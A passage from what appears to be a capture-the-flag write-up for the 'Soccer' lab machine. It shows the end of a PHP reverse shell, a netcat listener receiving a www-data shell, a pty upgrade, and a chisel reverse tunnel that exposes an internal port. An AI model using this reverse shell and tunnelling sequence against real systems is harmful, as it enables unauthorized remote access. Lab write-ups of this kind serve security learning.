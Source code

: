 ```php
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
After uploading set up your listener and access the shell from the webpage.

Note: These files will be deleted soon after.


```console
└─$ nc -lvnp 443                                 
listening on [any] 443 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.11.194] 35764
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 17:26:29 up 26 min,  0 users,  load average: 0.46, 0.45, 0.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
```console
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@soccer:/$ 
```
After some enumeration I wanted to checkout some of the internal ports that were running. So i set up a chisel server to reverse it.

```console
www-data@soccer:/dev/shm$ ./chisel client 10.10.16.11:1234 R:3000:127.0.0.1:3000
<hisel client 10.10.16.11:1234 R:3000:127.0.0.1:3000
2022/12/23 18:12:46 client: Connecting to ws://10.10.16.11:1234
2022/12/23 18:12:46 client: Connected (Latency 30.676047ms)

```console
└─$ chisel server --reverse --port 1234
2022/12/23 12:12:08 server: Reverse tunnelling enabled
2022/12/23 12:12:08 server: Fingerprint aYgUqCouaLdiJjoEjQnS59ia9HOKjAsGun6Vbfhz/mU=
2022/12/23 12:12:08 server: Listening on http://0.0.0.0:1234
2022/12/23 12:12:46 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/12/23 12:12:46 server: session#1: tun: proxy#R:3000=>3000: Listening
```
After it was setup I could access the webpage.
